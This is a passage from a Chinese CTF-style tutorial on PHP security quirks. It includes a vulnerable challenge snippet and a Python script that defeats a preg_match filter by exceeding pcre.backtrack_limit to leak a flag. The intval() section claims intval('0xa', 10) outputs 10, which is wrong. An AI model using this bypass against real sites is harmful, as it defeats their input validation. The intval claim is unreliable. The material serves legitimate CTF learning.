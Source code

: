 `D`：如果使用`$`限制结尾字符，则不允许结尾有换行。

- 最大回溯次数：默认为100万

为了防止正则表达式拒绝服务攻击，由`pcre.backtrack_limit`设置了回溯次数上限。假如回溯次数超过100万，则`preg_match`不再返回1或0，而直接返回`false`。

示例如下：

```php
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

阅读代码，大意即是传入的字符需拥有`ctfshow`这个字符串，但同时正则表达式又对字符串进行了一些限制。由于`.+?`会匹配相同的字符串无限次，因此可以回溯绕过。

脚本编写如下：

```python
import requests
url = 'http://7aa03b05-6a9a-4777-9548-7ac30f8799ed.challenge.ctf.show/'
response = requests.post(url, data={'f':250000*'aaaa'+'ctfshow'})
print(response.text)
```

注意的是一般来说请求的字符长度也是有限制的，因此不要写得太大。

## intval()函数

- 函数原型

```php
intval ( mixed $var [, int $base = 10 ] ) : int
```

将字符串按照给定的进制输出。

首先，当传入的`$var`是字符串类型时，若没有指定`$base`，默认按照十进制处理，传入十六进制数可能无法处理。当`$var`是数字类型时也可以直接处理十六进制等。来个例子：

```php
echo intval('0xa');
// 上面输出0，因为没有指定进制，按照输出十进制处理
echo intval('0xa', 10);
// 上面输出10
```

- 返回结果相同但字符串不相同的情况
